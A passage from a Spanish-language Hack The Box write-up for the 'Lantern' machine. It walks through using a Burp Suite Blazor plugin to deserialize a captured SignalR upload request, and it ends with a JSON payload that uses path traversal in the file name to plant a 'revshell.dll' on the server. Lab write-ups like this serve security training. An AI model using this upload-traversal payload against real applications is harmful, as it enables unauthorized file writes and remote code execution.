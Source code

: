 Finalmente, creamos el archivo .dll:

```shell-session
dotnet build -c release
```

```http
POST /_blazor?id=tVCAQun74z6Qp99JNsu8rg HTTP/1.1
Host: lantern.htb:3000
Content-Length: 172
Cache-Control: max-age=0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
X-SignalR-User-Agent: Microsoft SignalR/0.0 (0.0.0-DEV_BUILD; Unknown OS; Browser; Unknown Runtime Version)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://lantern.htb:3000
Referer: http://lantern.htb:3000/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

ªÀ·BeginInvokeDotNetFromJS¡4À¬NotifyChangeÙz`{"id":3,"lastModified":"2024-10-30T00:23:16.470Z","name":"UAC_1.png","size":59370,"contentType":"image/png","blob":{}}`
```

Pero algunos caracteres de la petición no son legibles. Tratamos entonces de subir el archivo `.dll` y revisar en el historial la petición por `POST` donde éste ha sido subido. Recomiendo pasar esta petición al `Repeater` de `Burpsuite` ya que necesitaremos esta petición que sube un archivo más tarde. Ahora es donde entra en juego el plugin de `Blazor` para `Burpsuite`. Realizamos click derecho sobre la petición del historial, vamos a `Extensions` y enviamos el body a `BTP` (que es como se llama el plugin):

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241211154813.png)

Si el plugin está instalado y activo, en la parte superior derecha deberíamos de tener una pestaña llamada `BTP`. El body que hemos enviado anteriormente debería de estar allí. Seleccionamos la opción `Blazor->JSON` y clickeamos en `Deserialize`:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241211154823.png)

Podemos entonces modificar el objeto `JSON` en el panel de la parte derecha. En este caso, ponemos como nombre `../../../../../../../opt/components/revshell.dll` para intentar subir un archivo a esta ruta. De manera que el `JSON` con el payload es:

```json
[{
   "Target": "BeginInvokeDotNetFromJS",
   "Headers": 0,
   "Arguments": [
      "3",
      "null",
      "NotifyChange",
      2,
      `{
         "blob": {},
         "size": 5120,
         "name": "../../../../../../../../opt/components/revshell.dll",
         "id": 2,
         "lastModified": "2024-11-14T05:54:19.455Z",
         "contentType": "application/x-msdownload"
      }`
   ],
   "MessageType": 1
}]
```